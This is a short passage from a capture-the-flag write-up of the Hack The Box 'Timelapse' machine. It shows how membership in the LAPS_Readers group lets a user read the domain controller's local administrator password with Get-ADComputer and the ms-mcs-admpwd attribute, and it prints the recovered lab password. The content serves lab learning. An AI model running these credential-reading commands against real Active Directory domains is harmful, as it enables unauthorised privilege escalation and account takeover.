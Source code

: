 ```bash
net user svc_deploy
```

This shows we are part of the LAPS which is password reader!

```bash
User name                    svc_deploy
Full Name                    svc_deploy
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/25/2021 12:12:37 PM
Password expires             Never
Password changeable          10/26/2021 12:12:37 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   10/25/2021 12:25:53 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers         *Domain Users
The command completed successfully.

```

The following command will leak that password of the DC!

```bash
Get-ADComputer DC01 -property 'ms-mcs-admpwd'

DistinguishedName : CN=DC01,OU=Domain Controllers,DC=timelapse,DC=htb
DNSHostName       : dc01.timelapse.htb
Enabled           : True
ms-mcs-admpwd     : mW+43;&GJ054c644[&{[#/4%
Name              : DC01
ObjectClass       : computer
ObjectGUID        : 6e10b102-6936-41aa-bb98-bed624c9b98f
SamAccountName    : DC01$
SID               : S-1-5-21-671920749-559770252-3318990721-1000
UserPrincipalName :

```

ms-mcs-admpwd     : mW+43;&GJ054c644[&{[#/4%
